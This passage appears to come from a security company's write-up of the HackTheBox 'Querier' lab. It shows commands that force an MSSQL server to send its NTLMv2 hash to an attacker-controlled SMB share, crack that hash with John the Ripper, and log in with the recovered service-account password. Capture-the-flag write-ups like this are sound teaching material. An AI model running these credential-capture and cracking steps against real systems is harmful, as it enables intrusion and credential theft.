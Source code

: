 ``` bash
> EXEC master.sys.xp_dirtree '\\10.10.15.1\querier';
```

``` bash
smbserver.py -smb2support querier Documents/
```

<div class="imgblock">

![mssql-hash](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331037/blog/querier-writeup/mssql-hash_eioncm.webp)

<div class="title">

Figure 8. User hash

</div>

</div>

Then we copy the hash to a plain text file and use John the Ripper
with the dictionary `rockyou.txt` to crack the captured hash. We need to
specify the correct hash format because John the Ripper occasionally
recognizes your hashes as the wrong type. This is inevitable because
some hashes look identical, in this case the correct format for `NTLMv2`
is `netntlmv2`.

``` bash
$ john.exe --wordlist=rockyou.txt --format-netntlmv2 \\
     "\Users\dette\HackTheBox\Querier\hash_mssql-svc.txt"
```

<div class="imgblock">

![john](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331036/blog/querier-writeup/john_hv30a2.webp)

<div class="title">

Figure 9. Runnnig John

</div>

</div>

Now we can connect to SQL Server as user `mssql-svc`. We try to
execute the command `whoami`, however, it responds telling us that
component `xp_cmdshell` is blocked. Since we are the service
administrator, we can enable it using a few queries.

<div>
<cta-banner
buttontxt="Read more"
link="/solutions/penetration-testing/"
title="Get started with Fluid Attacks' Penetration Testing solution right now"
/>
</div>

``` bash
python mssqlclient.py -windows-auth QUERIER/mssql-svc:corporate568@10.10.10.125
```
